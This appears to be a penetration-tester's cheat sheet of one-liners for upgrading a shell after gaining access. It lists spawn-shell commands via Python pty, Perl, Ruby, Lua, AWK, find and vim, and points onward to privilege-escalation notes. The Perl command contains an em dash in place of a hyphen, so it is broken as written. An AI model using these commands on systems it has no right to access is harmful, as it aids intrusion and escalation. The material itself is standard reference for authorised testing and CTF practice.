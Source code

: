 [GTFO bins](https://gtfobins.github.io/) 

`script /dev/null -c bash`
# Python
```shell-session
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
# Perl
```shell-session
$ perl —e 'exec "/bin/sh";'
```

```perl
perl: exec "/bin/sh";
```
# Ruby
```ruby
ruby: exec "/bin/sh"
```
# Lua
```lua
lua: os.execute('/bin/sh')
```
# AWK
```shell-session
$ awk 'BEGIN {system("/bin/sh")}'
```
# Find
```shell-session
$ find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
$ find . -exec /bin/sh \; -quit
```
# Vim
```shell-session
$ vim -c ':!/bin/sh'
```
```vim
vim
:set shell=/bin/sh
:shell
```
Possible pathways after upgrading shell:
- [[Windows Privesc.]]
- [[Linux Privesc.]]